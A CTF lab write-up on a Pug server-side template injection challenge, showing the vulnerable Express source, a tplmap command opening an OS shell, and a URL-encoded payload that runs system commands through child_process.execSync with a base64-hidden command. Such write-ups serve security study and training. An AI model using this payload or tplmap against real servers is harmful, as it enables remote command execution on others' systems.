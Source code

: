 # Simple Web 0x22(Lab - Pug)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8008

## Source code
:::spoiler
```javascript=
const express = require('express');
const pug = require('pug');

const app = express();

const template = `
h1 Hello %NAME%
form(method='GET' action='/')
  div
    label(for='nickname') Name:
    input#nickname(type='text', placeholder='Nickname' name='name')
    button(type='submit') Submit 
  a(href='/source') Source Code
`;

app.get('/', (req, res) => {
    const name = (req.query.name ?? 'Anonymous').toString();
    if (name.includes('{')) return res.send('Nice try');
    let html = pug.render(template.replace('%NAME%', name));
    res.set('Content-Type', 'text/html');
    res.send(html);
});

app.get("/source", (_, res) => {
    res.sendFile(__filename);
});

app.listen(3000, () => console.log(':3000'));

```
:::
## Exploit - `tqlmap`
```bash!
$ ./tplmap.py --engine pug --os-shell -u "http://h4ck3r.quest:8008/?name=bob"
```

* Using wireshark to trace the payload
You must let the template by like:
    ```javascript!
    const template = `
    h1 Hello %NAME%
    = global.process.mainModule.require('child_process').execSync(Buffer('bHM=', 'base64').toString())
    form(method='GET' action='/')
      div
        label(for='nickname') Name:
        input#nickname(type='text', placeholder='Nickname' name='name')
        button(type='submit') Submit 
      a(href='/source') Source Code
    `;
    ```
    Including a new line and an equal sign
    Payload:
    `%0A%3D%20global.process.mainModule.require%28%27child_process%27%29.execSync%28Buffer%28%27bHM%3D%27%2C%2B%27base64%27%29.toString%28%29%29`
    which is
    ```

    = global.process.mainModule.require('child_process').execSync(Buffer('bHM=',+'base64').toString())
    ```
* Note that `bHM=` is command `ls` in base64 format
## Reference
[关于SSTI注入的二三事](https://xz.aliyun.com/t/11090)
[【SSTI模块注入】SSTI+Flask+Python（下）：绕过过滤](https://blog.51cto.com/u_15414689/5530904)
[0xdbe-appsec/ssti-express-pug](https://github.com/0xdbe-appsec/ssti-express-pug)
[Tplmap](https://github.com/epinna/tplmap/blob/master/README.md)
[[Linux系統] Ubuntu 安裝 Node.js](https://andy6804tw.github.io/2019/09/23/ubuntu-indtall-nodejs/)